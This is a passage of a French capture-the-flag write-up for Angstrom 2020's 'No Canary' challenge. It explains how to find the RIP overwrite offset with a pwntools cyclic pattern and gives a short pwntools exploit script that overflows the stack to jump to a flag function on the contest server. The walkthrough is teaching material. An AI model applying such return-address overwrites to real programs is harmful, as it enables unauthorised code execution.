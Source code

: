 Essayons de déterminer à partir de combien de bytes la valeur du pointeur d'instruction RIP est écrasée par notre chaine.
Pour ce faire, j'utilise ici une suite de [DeBruijn](https://en.wikipedia.org/wiki/De_Bruijn_sequence), génerée avec l'outil [cyclic](https://docs.pwntools.com/en/stable/util/cyclic.html) de la librairie python [PwnTools](https://github.com/Gallopsled/pwntools):

![devoops-E](/img/Angstrom2020/No_Canary/ncanary6.png){:class="img-responsive"}

Un petit break sur la fonction _ret_ et un affichage de la stack nous permet de déterminer l'offset à partir duquel notre input écrase le registre RIP. 

![devoops-E](/img/Angstrom2020/No_Canary/ncanary7.png){:class="img-responsive"}

Attention, Le binaire est en 64 bits, donc il faudra tronquer l'offset de RIP à 4 bytes et soustraire 4 bytes du résultat final:

![devoops-E](/img/Angstrom2020/No_Canary/ncanary8.png){:class="img-responsive"}

Le padding est donc de 40 bytes.

Il ne reste qu'a récupérer l'adresse de la fonction '_flag_', et le tour est joué:

![devoops-E](/img/Angstrom2020/No_Canary/ncanary9.png){:class="img-responsive"}

L'exploit correspondant est le suivant:
```python
from pwn import *
conn = remote("shell.actf.co" 20700)
pad = "A" * 40
flag_func = "\x86\x11\x40\x00\x00\x00\x00\x00"
payload = pad + flag_func
conn.sendline(payload)
conn.interactive()
```
Enfin, l'exécution nous ouvre un shell sur le serveur distant, afin de récupérer le flag:
```bash
actf{that_gosh_darn_canary_got_me_pwned!}
```
